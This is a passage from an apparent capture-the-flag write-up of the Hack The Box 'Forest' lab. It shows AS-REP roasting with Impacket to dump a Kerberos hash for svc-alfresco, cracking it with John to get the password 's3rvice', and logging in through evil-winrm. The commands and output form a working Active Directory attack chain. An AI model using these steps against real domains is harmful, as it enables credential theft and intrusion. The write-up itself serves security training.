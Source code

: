 I'm going to add `htb.local` to my `/etc/hosts` file to make it easier for myself when typing out commands. I know `smbclient` won't really work without credentials because of the enum4linux output, so I think I'll start by AS-REP roasting the users I got since I don't really have any other leads.

AS-REP roasting exploits a permission known as `UF_DONT_REQUIRE_PREAUTH`, where, if set to true, a user doesn't need to preauthenticate with Kerberos to get their ticket. We can abuse this to grab the Ticket Granting Ticket that a user would use to authenticate to Kerberos without needing their password.

```shell
kali@kali:~/ctf/htb/forest$ cat users.txt | while read line; do python3 /opt/impacket/examples/GetNPUsers.py -dc-ip 10.10.10.161 htb.local/$line -no-pass; done

[*] Getting TGT for Administrator
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
Impacket v0.9.23.dev1+20210504.123629.24a0ae6f - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for sebastien
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
Impacket v0.9.23.dev1+20210504.123629.24a0ae6f - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for lucinda
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
Impacket v0.9.23.dev1+20210504.123629.24a0ae6f - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for andy
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
Impacket v0.9.23.dev1+20210504.123629.24a0ae6f - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for mark
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
Impacket v0.9.23.dev1+20210504.123629.24a0ae6f - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for santi
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
Impacket v0.9.23.dev1+20210504.123629.24a0ae6f - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB.LOCAL:232e198e9fe165f5d2a0181994a1e6e4$fb53384df136dcc5aab6aad6f8b947f9647fd5a06aa5dc316c75f9b229ae72b96b146d3018604cb6c81bc55695c2f181bc9ce2e561faa207d206035b79794f0e53942996b43a272f7f9baec02d08c1cf791fd7a0bd79afd08baba81f2d9bc7364e9ff590e34cf4822b4fcceb4b97efcfdd01830b553238419a3e2c4b1bba111d7f0a316c80e3566c3531b357111ecaa4da74d432c12b4aa27699b78dea78ee5b416266ddde8c3319145afef0fd934520c35bb30e3fec8663378f3093574642eddb4b9118a33437af434f0c57329ae9246e1de74216584788610d1f614840047f00eb30853c93
```

## User

If `svc-alfresco` has a weak password, we can crack the ticket and possibly get shell:
```shell
kali@kali:~/ctf/htb/forest$ sudo john svc-alfresco --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$23$svc-alfresco@HTB.LOCAL)
1g 0:00:00:18 DONE (2021-09-03 16:01) 0.05543g/s 226480p/s 226480c/s 226480C/s s3s1k2..s3rj12
Use the "--show" option to display all of the cracked passwords reliably
Session completed

kali@kali:~/ctf/htb/forest$ evil-winrm -u svc-alfresco -p s3rvice -i htb.local

Evil-WinRM shell v3.2

Info: Establishing connection to remote endpoint
```